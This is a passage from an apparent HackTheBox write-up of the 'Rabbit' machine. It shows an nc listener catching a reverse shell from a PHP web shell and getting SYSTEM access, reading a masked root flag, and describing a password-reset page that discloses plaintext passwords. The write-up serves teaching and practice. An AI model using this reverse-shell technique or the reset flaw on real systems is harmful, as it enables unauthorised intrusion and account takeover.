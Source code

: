 It is worth noting that my first attempt at PHP execution used `system` instead of `shell_exec`, but the shell keep getting deleted by Defender.

#### Shell

With `nc` listening on 443, I’ll visit `http://10.10.10.71:8080/0xdf.php` in Firefox. It hangs, but there’s a connection at `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.71 22005
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\wamp64\www>whoami
nt authority\system

```

And I can read `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
0b2ded66************************

```

## Beyond Root

### Complain User Password Reset

It’s not important to solving Rabbit, but Complain Management System’s password reset is very broken.

Without logging in, visiting `forget-password.php` asks for your username and email:

![image-20220425164922703](https://0xdfimages.gitlab.io/img/image-20220425164922703.png)

If I get that right, it returns the password in clear text:

![image-20220425164955007](https://0xdfimages.gitlab.io/img/image-20220425164955007.png)

This allows anyone to get any user’s password. It also means that passwords are being stored in plaintext (rather than hashed).

### Automation Analysis

I wanted to look at how the automations were working, largely out of frustrating with their inconsistency.

#### Triage Scheduled Tasks
